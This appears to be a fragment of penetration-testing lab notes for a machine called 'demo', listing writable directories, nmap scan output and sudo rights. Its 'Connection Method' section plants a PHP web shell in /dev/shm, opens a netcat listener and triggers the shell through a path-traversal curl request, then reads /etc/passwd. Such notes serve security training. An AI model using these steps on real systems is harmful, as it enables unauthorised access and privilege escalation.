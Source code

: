 ```
/sys/fs/cgroup/user.slice/user-1001.slice/user@1001.service/init.scope
/var/tmp
/var/crash
/var/lib/php/sessions
/proc/36491/task/36491/fd
/proc/36491/fd
/proc/36491/map_files
/home/anita
/home/anita/.ssh
/home/anita/.gnupg
/home/anita/.gnupg/private-keys-v1.d
/home/anita/.config
/home/anita/.config/procps
/home/anita/.cache
/home/anita/.local
/home/anita/.local/share
/home/anita/.local/share/nano
/home/anita/snap
/home/anita/snap/lxd
/home/anita/snap/lxd/23541
/home/anita/snap/lxd/common
/home/anita/snap/lxd/common/config
/dev/mqueue
/dev/shm
```
## www-data / -
`Connection Method`
- Drop shell.php into /dev/shm/shell.php
- Start listener
    - `nc -lvnp 4444`
- Execute locally as anita
    - `curl 'http://127.0.0.1:8000/backend/?view=../../../../../../dev/shm/shell.php'`
`sudo -l`
```
Matching Defaults entries for www-data on demo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on demo:
    (ALL) NOPASSWD: ALL
```

# Enumeration
## NMAP
`sudo nmap -sV 192.168.152.246 --top-ports 1000`
```
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.52 ((Ubuntu))
443/tcp  open  ssl/http Apache httpd 2.4.52 ((Ubuntu))
2222/tcp open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`sudo nmap -A -T4 -p- 192.168.152.246`
```

```
## Local Users
`cat /etc/passwd`
```
```